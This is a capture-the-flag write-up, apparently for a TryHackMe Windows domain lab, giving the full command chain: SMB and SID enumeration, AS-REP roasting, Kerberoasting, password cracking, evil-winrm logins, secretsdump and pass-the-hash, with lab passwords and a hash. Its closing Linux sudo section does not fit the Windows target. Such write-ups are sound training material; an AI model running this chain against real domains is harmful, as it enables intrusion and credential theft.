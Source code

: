 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)




## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

Now let's try to find some SPN associated with user accounts. Result should be a file with encrypted password(s).

```
impacket-GetUserSPNs 'VULNNET-RST.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.171.250 
```

![GetUserSPNs](/images/SPN.jpg)

![hash2](/images/hash2.jpg)

Now we can try crack it the same way as before:

![cracked2](/images/cracked2.jpg)

We have now the cracked password for the account **'enterprise-core-vn'**. Let's attempt a remote connection:

```
evil-winrm -i 10.10.171.250 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' 
```

![remote](/images/remote.jpg)

It worked! Let's try find the flag. Usually is in the same folder or near.

![flag1](/images/flag1.jpg)

And we got the first flag. 

Now let's map the SMB again but this time with a valid user.

```
smbmap -H 10.10.171.250 -u enterprise-core-vn -p 'ry=ibfkfv,s6h,'
```

![smb3](/images/smb3.jpg)

We get shares that are now readable. Let's dig more.

```
smbclient \\\\10.10.171.250\\SYSVOL -U 'enterprise-core-vn%ry=ibfkfv,s6h,'
```

![sysvol](/images/sysvol.jpg)

We found some interesting folders. Let's dig.

![scripts](/images/script.jpg)

We found a script and when we check what does it do, we find some credentials for user **a-whitehat**!

![scriptcreds](/images/scripcreds.jpg)

Let's find out more:

```
evil-winrm -i 10.10.31.71 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```

It works! and if we run the below, we see the user is DOMAIN ADMIN!

![domainadmin](/images/domainadmin.jpg)

I found the system.txt within 'C:\Users\Administrator\Desktop', but the file itself is not readable by the user. We can use secretsdump to try dumping the Administrator account.

```
impacket-secretsdump VULNNET-RST.local/a-whitehat:bNdKVkjv3RR9ht@10.10.31.71
```

We found all hashes but what we really want is the Administrator one that we got here.

![admin](/images/admin.jpg)

We don't need to crack the hash, we can just use it with Evil-WinRM:

```
evil-winrm -i 10.10.31.71 -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

It worked! And now we can read the system.txt file to grab the system flag.

![root](/images/root.jpg)





## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
